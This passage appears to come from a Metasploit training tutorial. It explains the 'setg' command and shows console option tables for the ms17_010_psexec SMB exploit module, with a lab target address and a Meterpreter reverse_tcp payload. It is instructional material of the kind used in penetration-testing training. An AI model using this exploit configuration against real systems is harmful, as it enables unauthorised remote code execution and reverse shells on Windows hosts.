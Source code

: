 ```shell-session
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

In addition, there is the option `setg`, which specifies options selected by us as permanent until the program is restarted. Therefore, if we are working on a particular target host, we can use this command to set the IP address once and not change it again until we change our focus to a different IP address.

#### MSF - Permanent Target Specification

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
```